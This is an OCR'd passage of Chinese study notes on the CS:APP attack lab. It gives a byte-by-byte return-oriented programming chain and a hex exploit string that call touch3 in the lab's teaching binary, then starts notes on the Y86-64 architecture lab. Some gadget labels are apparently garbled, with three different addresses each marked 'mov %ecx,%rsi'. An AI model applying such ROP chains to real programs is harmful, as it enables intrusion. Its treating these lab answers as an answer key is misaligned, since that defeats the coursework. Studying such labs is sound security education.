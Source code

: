 因此，phase5的答案可以如下构造：
- 前40字节：仍然留空。
- 第41-48字节：`0x401a06`，对应`mov %rsp,%rax`。
- 第49-56字节：`0x4019c5`，对应`mov %rax,%rdi`。
- 第57-64字节：`0x4019ab`，对应`popq %rax`。
- 第65-72字节：经过计算，取`%rsp`的位置后有7个gadget地址、一个函数地址、一个8字节常量，所以偏移量为`0x48`。
- 第73-80字节：`0x401a42`，对应`mov %ecx,%rsi`。
- 第81-88字节：`0x401a69`，对应`mov %ecx,%rsi`。
- 第89-96字节：`0x401a13`，对应`mov %ecx,%rsi`。
- 第97-104字节：`0x4019d6`，对应`add_xy`地址。
- 第105-112字节：`0x4019a2`，对应`mov %rax,%rdi`。
- 第113-120字节：`0x4018fa`，对应`touch3`地址。
- 第121-129字节：cookie字符串。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00

35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
```

成功：

![[Pasted image 20240801004730.png]]

3/8

## arch-lab

本lab要求优化一个Y86-64处理器架构的流水线CPU模拟器，使得基准程序的执行效率最大化。lab分为三部分：
- 第一部分：写一些简单的Y86-64程序，熟悉有关工具。
- 第二部分：通过添加新指令，扩展SEQ模拟器。
- 第三部分：优化CPU设计和基准程序。

### Y86-64指令集

参考：
- CS:APP 第4章
- [blog](https://blog.csdn.net/weixin_58165485/article/details/123551737)
- [blog2](https://yubincloud.github.io/notebook/pages/11e85f/)
